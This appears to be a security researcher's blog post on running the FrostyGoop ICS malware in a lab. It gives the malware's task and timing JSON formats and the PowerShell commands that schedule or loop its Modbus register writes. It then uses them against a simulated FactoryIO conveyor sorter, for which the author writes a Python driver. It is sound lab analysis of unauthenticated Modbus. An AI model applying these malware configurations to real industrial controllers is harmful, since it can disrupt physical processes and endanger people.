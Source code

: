 ```yaml
---
title: "Functional Analysis of FrostyGoop ICS Malware pt. 2/2"
description: Playing around with FrostyGoop
draft: false
date: 2024-07-28T09:00:00+01:00
publishDate: 2024-07-28T09:00:00+01:00
tags: ["cyber security", "malware", "analysis", "functional", "stuxnet", "havex", "industroyer", "reverse engineering", "ICS", "OT", "FactoryIO", "hacking", "frostygoop"]
---
```


Taking FrostyGoop to the next level and attacking a simulated sorting machine.

## Introduction

While analysing the FrostyGoop ICS malware in my previous [blogpost](https://www.remyjaspers.com/blog/frostygoop) I had way too much fun with analyzing the Modbus TCP protocol and its security (or lack thereof). Not being able to use the timing and automating bit of the malware haunted me and I wanted to fully understand it. Shoutout to Nozomi for their awesome [writeup]((https://www.nozominetworks.com/blog/protecting-against-frostygoop-bustleberm-malware)) of the malware. They were able to reverse engineer the task_test.json file which I was still figuring out. 

Armed with this knowledge, I wanted to take this malware and experimentation with unauthenticated Modbus to the next level. I experimented some more with the timing commands until I got them to work. 

After I show some more details on how to run the commands to time execution of FrostyGoop, I will build a small lab to have something more interesting to look at than the ModRssim2 table of register values :yawning_face:.  After [digging](https://rodrigocantera.com/en/modbus-tcp-packet-injection-with-scapy/) around, I found this awesome [industrial conveyor belt color sorter ](https://community.factoryio.com/t/sort-by-color-conveyor-system/222) scenario in a ICS simulation software called [FactoryIO](https://factoryio.com/). FactoryIO allows to interact with it using software from many ICS vendors (Siemens, Rockwell etc. ) This looks like the perfect candidate for a more realistic attack scenario! Before we attack this sorting station however, let's have a brief look at how FrostyGoop's timed execution works.

![img/sorting_machine.jpg](img/sorting_machine.jpg)

## FrostyGoop Timing

As the folks from Nozomi showed, FrostyGoop can be run with a tasklist JSON file that lays out the steps to automatically attack Modbus appliances. This greatly helps in foregoing the repetitive task of providing command line arguments for each Modbus message to be sent. This file assumes the following format:

```JSON
{
    "Iplist" : ["127.0.0.1"],
    "Tasks" : [
        {
            "Code" : 16,
            "Address" : 0,
            "Value" : 8000,
            "Count" : 3
        }
    ]
   
}
```

After playing around with the sample for a bit longer I found out how to use the *StartTime*, *PeriodTime*, *WaitTime* and *IntervalTime* variables. We can provide these in a *separate* JSON file so FrostyGoop's execution can be delayed, repeated, or scheduled. Unfortunately I was only able to set the StartTime in hours, but I found no way to make it work with a UTC date/time string. This "cycle info" JSON file has the following format:

```JSON
{
 "StartTime" : "13:20:00",
 "IntervalTime" :  "1ms",
 "PeriodTime" : "1ms",
 "WorkTime" : "20s"
} 

```

| Command | Explanation |
|-|-|
|StartTime | UTC time string to schedule execution (HH:MM:SS)|
|IntervalTime | Time between executions |
|PeriodTime | Not sure about this one|
| WorkTime | Length of time for the malware to repeat execution (20 seconds)|

To execute the malware with the timing info, the following command can be used:

```Powershell
.\mb.exe -cycle .\cycle.json -input-task .\task_test.json
```

You can also just execute this malware in a Powershell loop, but this provides less flexibility:

```Powershell
While (1) { ./mb.exe -input-task ./task_test.json; }
```
## Driving the sorting station

The project files I found on the FactoryIO community were great but only provided Rockwell PLC driver code for the project and a proprietary ControlIO driver. Neither of them suited my purposes very well as I don't want to learn an entire software stack just to prove a point :grinning_face: . So I decided to cook something up myself. 

Before we can interact with FactoryIO, we have to configure it as a Modbus TCP/IP server, with the following settings. The other settings are left to their defaults, but it is important to set the Slave ID to 254 (because FrostyGoop for some reason sets this as the default?). Other settings are left to their defaults:

![img/factoryio_modbus_config.png](img/factoryio_modbus_config.png)
 
FactoryIO shows a nice overview of all the registers that can be read and/or written to. By connecting the various sensors and actuators to the right registers, we are able to send Modbus commands to drive them. I configured the sensors and actuators as follows:

![img/modbus_register_overview.png](img/modbus_register_overview.png)

I decided to just write a small driver in Python using the [pyModbus](https://pypi.org/project/pymodbus/) library. This code is probably devoid of any decent PLC programming practices (I have zero experience with that stuff). Regardless, it works for our purposes. It reads the Modbus registers that store the sensor (vision, laser) values and drives the actuators (load pushers, conveyor belt etc.) based on those values, and sorts the conveyed parts in their respective buckets. 

```Python
from pymodbus.client import ModbusTcpClient
from pymodbus.exceptions import ModbusException
import time

SLAVE = 254

c = ModbusTcpClient('127.0.0.1')   # Create client object
c.connect()                        # connect to device, reconnect automatically

# Reset 
c.write_coil(0, 1, SLAVE); # emitter start
c.write_coil(1, 0, SLAVE); # load pusher reset

c.write_coil(2, 0, SLAVE); # pusher 1 reset
c.write_coil(3, 0, SLAVE); # pusher 2 reset
c.write_coil(4, 0, SLAVE); # pusher 3 reset

c.write_register(7, 0, SLAVE); #reset belt speed
c.write_register(14, 0, SLAVE); # conveyor belt off

while c.connected:

        part_ready = c.read_discrete_inputs(0, 1, SLAVE).bits[0];
        part_pres_1 = c.read_discrete_inputs(1, 1, SLAVE).bits[0];
        part_pres_2 = c.read_discrete_inputs(2, 1, SLAVE).bits[0];
        part_pres_3 = c.read_discrete_inputs(3, 1, SLAVE).bits[0];
        
        load_pusher_adv = c.read_discrete_inputs(4, 1, SLAVE).bits[0];
        load_pusher_ret = c.read_discrete_inputs(5, 1, SLAVE).bits[0];

        metal_bin = c.read_discrete_inputs(5, 1, SLAVE).bits[0];
        blue_bin = c.read_discrete_inputs(6, 1, SLAVE).bits[0];
        green_bin = c.read_discrete_inputs(7, 1, SLAVE).bits[0]
        reject_bin = c.read_discrete_inputs(8, 1, SLAVE).bits[0];

        metal_detect = c.read_input_registers(2, 1, SLAVE).registers[0];
        blue_detect = c.read_input_registers(1, 1, SLAVE).registers[0];
        green_detect = c.read_input_registers(0, 1, SLAVE).registers[0];
        
        metal_retract = c.read_input_registers(5, 1, SLAVE).registers[0];
        blue_retract = c.read_input_registers(4, 1, SLAVE).registers[0];
        green_retract = c.read_input_registers(3, 1, SLAVE).registers[0];

        belt_speed = c.read_input_registers(7, 1, SLAVE).registers[0];
        conv_off = c.read_discrete_inputs(14, 1, SLAVE).bits[0];
        
        if conv_off:
                c.write_register(7, 0, SLAVE); # Reset belt speed
        else:
                c.write_register(7, belt_speed, SLAVE); # Set belt speed based on knob
                
        if part_pres_1:
                c.write_coil(0, 0, SLAVE); # Emitter disable
        else:
                c.write_coil(0, 1, SLAVE); # Emitter enable

        if not part_ready and load_pusher_ret:
                c.write_coil(1, 1, SLAVE); # Load pusher adv
       
        if load_pusher_adv:
                c.write_coil(1, 0, SLAVE); # Load pusher retract
    
        if metal_detect == 9 and part_pres_3:
                c.write_register(2, 0x7FFF, SLAVE); # Pusher metal adv
        else:
                c.write_register(2, 0x8000, SLAVE); # Pusher metal retract
        
        if blue_detect == 2 and part_pres_2:
                c.write_register(1, 0x7FFF, SLAVE); # Pusher blue adv
        else:
                c.write_register(1, 0x8000, SLAVE); # Pusher blue retract
        
        if green_detect == 5 and part_pres_1:
                c.write_register(0, 0x7FFF, SLAVE); # Pusher green adv
        else:
                c.write_register(0, 0x8000, SLAVE); # Pusher green retract
        
        time.sleep(0.1);
```

Under normal operation, the color sorter works as intended, putting the metal, blue and green lids, and the small paper boxes in their respective bucket (sped up 4x for your viewing pleasure). Warning: please have some patience, the GIFs below may take a while to load. If you don't see anything yet, please refreshing the page. 

![Normal Operation](img/normal_operation.gif)

Let's attack this sorting machine and see what happens. 

## Attacking the sorting station with FrostyGoop

Using the aforementioned task and cycle info JSON files, we run FrostyGoop to target the sorting machine. Twenty seconds of sending crafted Modbus messages is all it takes to throw the sorting machine into disarray:

![Attacked](img/attacked_operation.gif)

## Conclusion

This hopefully reinforces the point that using unauthenticated Modbus TCP is a *bad* idea. Even rather unsophisticated malware like FrostyGoop can do real damage if deployed under the right circumstances. 

Thanks for reading until the end. If you have any questions or suggestions feel free to drop me a message on Linkedin or Xitter (@st0yky).